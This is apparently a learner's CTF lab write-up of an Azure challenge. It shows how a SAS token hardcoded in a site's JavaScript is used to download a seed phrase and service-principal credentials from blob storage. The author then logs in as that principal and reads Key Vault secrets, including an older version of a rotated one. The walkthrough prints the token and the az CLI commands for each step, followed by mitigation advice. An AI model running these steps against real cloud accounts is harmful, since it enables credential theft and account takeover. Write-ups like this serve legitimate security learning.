## Day 9
### CryptoCabana
#### Points: 90
#### Category: Cloud
#### Difficulty: Medium

#### Briefing
By the time he made it back from the breakfast buffet, his wallet had already moved on without him. The transaction was signed, properly signed, just not by him.

He'd backed his seed phrase up weeks ago, into the CryptoCabana kiosk's vault — the one whose landing page promised, in exactly four words, “Backed up. Sleep easy.” Somewhere between that promise and this morning, something else got a good look at what was supposed to stay behind glass.

Your objective: find out what the kiosk is quietly trusting to reach into storage on its own, and see how much further that trust actually extends.

#### Itinerary
- [ ] Pull a part what the kiosk hands out for free before you've even clicked anything
- [ ] Follow that trust somewhere the kiosk's own page never once points you
- [ ] Somewhere in there is a second, more valuable set of keys -- and a vault that won't give up the real values on the first ask

#### @0xMia's Story

""the backup kiosk is SO confident. 'sleep easy' it says 💀 reader, do not sleep easy. also: if a value looks freshly rotated, ask yourself what it looked like five minutes before that 👀""

#Cloud #Azure #storage #Key_vault
#### Preliminary thoughts:
This was a brand new one for me I had to run an exploit through microsoft Azure. I have used AWS a little but Azure is new to me. The lab gave me the ability to create temporary access to an azure portal. I was able to log in and had to start a bash cloud terminal. I am going to have to follow a tutorial on this I Think.


#### Project
so first I have to go to Target:

`https://cryptocabanaf5scjagc.z13.web.core.windows.net/`

So it appears it is a page where I can save a recovery phrase so it is allegedly safe on the cloud and not held locally potentially less safe than the cloud system,



so I open the inspection window to try to get an understanding of how this works.

it uses a javascript to run the logic of the page and  the back it up button appears to pull a function that is likely defined in the java script



I am able to actually look at the java script to see how the code functions. 

app.js is literally just a hyper link on the inspection screen and I click it to come to this script

and it appears they hardcoded sensitive information right up front here. I know when I have tried writing programs in python as a hobby I always practiced having an env folder that I then added to my .gitignore list and would just call those env variables instead of having them hardcoded into the application's logic.  I need to copy and paste this and try to process it to make it a little more readable

STORAGE_ACCOUNT = "cryptocabanaf5scjagc";
BACKUPS_CONTAINER = "backups";
BACKUP_SAS = "?sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=ZAo05W8KXdSLM9afYCNGogNRV2N5a6aB4dQI3LXz%2Fh0%3D";

sv=2022-11-02
ss=b
**srt=sco
sp=rl**
se=2099-12-31T23:59:59Z
st=2024-01-01T00:00:00Z
spr=https
sig=ZAo05W8KXdSLM9afYCNGogNRV2N5a6aB4dQI3LXz%2Fh0%3D";

##### SRT => Service Resource Types
This denotes the resource types the SAS can access

*s* => service
*c* => container
*o* => objects

##### sp => Permissions granted

*r* => read
*l* => list

this is a wide open door of permissions into this azure storage vault

I am going to go into the bash the room had me set up and look at what storage contains I can see. 


I want to list out the contents of vault because that was something the front end did not reveal as existing to me. 



Now to find the info in those files I will run

```
az storage blob download --account-name cryptocabanaf5scjagc --container-name vault --name seed_phrase.txt  --sas-token "?sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=Z
Ao05W8KXdSLM9afYCNGogNRV2N5a6aB4dQI3LXz%2Fh0%3D" --file sp.txt
```

```
az storage blob download --account-name cryptocabanaf5scjagc --container-name vault --name backup-service-account.json  --sas-token "?sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=Z
Ao05W8KXdSLM9afYCNGogNRV2N5a6aB4dQI3LXz%2Fh0%3D" --file bsa.json
```
then I just cat the files i copies them into:



The jq pipe just makes the JSON a little nicer to read, and it looks like there is dangerous information available in the backup service account.

```
{
  "client_id": "dbcf2923-e4eb-4b72-a0a4-688aa1185cf5",
  "client_secret": "<Lab Secret Redacted>",
  "key_vault_name": "ccabana-kv-f5scjagc",
  "key_vault_uri": "https://ccabana-kv-f5scjagc.vault.azure.net/",
  "note": "CryptoCabana backup automation account. Rotate this if it ever leaves the vault. -- IT",
  "tenant_id": "8f8c5f8e-42d3-4ceb-97ad-241bbf446d6c"
}
```

I can now use this information to try to go one layer higher in access from the storage account to this client_id account 

```
az login --service-principal -u dbcf2923-e4eb-4b72-a0a4-688aa1185cf5 -p <Lab Secret Redacted> --tenant 8f8c5f8e-42d3-4ceb-97ad-241bbf446d6c
```



now that i am logged in with higher permission I am going to try to take a look at the key vault that was named in bsa.json

`az keyvault secret list --vault-name ccabana-kv-f5scjagc -o table`


now to try to read those keys I run the following and their results


`az keyvault secret show --vault-name ccabana-kv-f5scjagc --name master-key`


`az keyvault secret show --vault-name ccabana-kv-f5scjagc --name key-shard-1 --query value`


`az keyvault secret show --vault-name ccabana-kv-f5scjagc --name key-shard-2 --query value`


`az keyvault secret show --vault-name ccabana-kv-f5scjagc --name key-shard-3 --query value`



okay so we are very close but it appears the second shard of the key has been rotated and now we have to try to look at previous versions of that key shard file



this appears to be the ID of the older version we can no longer see so now I will need to try to take a look at that one:


`https://ccabana-kv-f5scjagc.vault.azure.net/secrets/key-shard-2/3d6492d2c6f74123bc754a9ded22b2a0`

to show that one instead of calling the file I call that specific ID.

`az keyvault secret show --id "https://ccabana-kv-f5scjagc.vault.azure.net/secrets/key-shard-2/3d6492d2c6f74123bc754a9ded22b2a0" --query value`



and there we have it the missing part


put them all together



#### Closing Thoughts
A. hard coding credential information is always a bad idea. I was shocked that clicking `app.js` from the inspect screen brought me to a javascript file that had the SAS token just hardcoded at the top of the screen.
B. I have not worked with Azure before but from the sounds of looking up the SAS (Shard Access Signature) token info to translate SRT and SP, it seems like it is probably unnecessary to allow that level of access. It is what gave me the ability to enumerate the storage account, where they also kept service principal credentials.
C. Mitigation strategies- never embed SAS tokens client-side, store secrets in key vault, not blob storage, practice minimal permissions, rotate service principal conditions when discovered to be exposed. 
D. it's fun to inspect the page it feels like you are walking backstage of a universal Halloween horrors night and see all the monsters out of their costumes on smoke break.

#### Lessons learned
This room required me to get a lot of exposure to Azure. so that was pretty fun. I did not get to make many mistakes besides typos on this room because I did have to follow pretty closely with a tutorial because I really had not idea what I was doing from azure. I was proud that I feel like I am starting to think like a pentester. When i first loaded the screen I knew the easiest place to try to find information is in the HTML and JS files. If they don't slip up and provide important info directly there you may at least get a feel for how the web app works and that can be a good first step in figuring out how to break it.
I think this is the second room where the underlying JS exposed a secret to me. It has me wondering, is there anyway to keep the JS file hidden from prying eyes? 
**no** there isn't a way to hide it for the client side browser to process it it needs it to work with. and that's why developers have to exercise supreme caution and restraint with credential storage locations.
Also a fun thing I just learned while trying to push this update. Github automatically checks code for secrets that is why I had to redact a secret in this commit attempt.
